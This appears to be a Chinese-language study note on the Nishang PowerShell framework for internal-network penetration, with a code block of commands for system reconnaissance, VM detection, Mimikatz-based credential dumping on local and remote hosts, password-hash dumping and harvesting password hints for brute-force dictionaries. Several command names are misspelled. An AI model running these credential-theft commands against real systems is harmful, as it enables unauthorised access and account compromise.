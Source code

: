 > 实际渗透中，肯定不能把Nishang整个目录都读到目标服务器上，所以在下载某一个脚本的时候，了解目录结构很重要

#### 目录结构：

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E7%9B%AE%E5%BD%95.png"></img>

#### 模块和功能介绍：

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E5%8A%9F%E8%83%BD.png"></img>

#### 演示：

端口扫描 密码获取 键盘记录 反弹会话 口令爆破

#### 实战应用：

- 后续控制
- 域渗透
- 系统提权

```pythn
# 使用，导入框架（如果出错，重新以管理员运行:执行`Set-ExecutionPolicy remotesigned`）

Import-Module .nishang.psml

# 载入模块  查看NiShang都有哪些模块

Get-Command -Moudle nishang

## 查看机器基本信息

Get-Information

# 把结果导出文件  Out-File

Get-Information | Out-File res.txt


# 检测是否为虚拟机

Check-VM


## 获取密码

Invoke-Minikatz
#Dump出本机的凭证信息
Invoke-Minikatz -DumpCerts
#dump出远程的两台计算机的凭证信息
Invoke-Minikatz -ComputerName @("computer1", "computer2")
#在远程的一台机器上运行Mimikatz 并执行 "privilege::debug exit"
Invoke-Minikatz -Command "privilege::debug exit" -ComputerName@("computer1")


# Get-PassHashes 获取密码

# 在administrator的权限下可以dump出密码hash值（在在msf中的power dump模块进行了修改，不需要system权限就可以dump）

Get-PassHashes


# 获取用户的密码提示信息(需要有administrator的权限) 可以根据提示信息生成密码字典，提高爆破成功率

Get-PassHints

```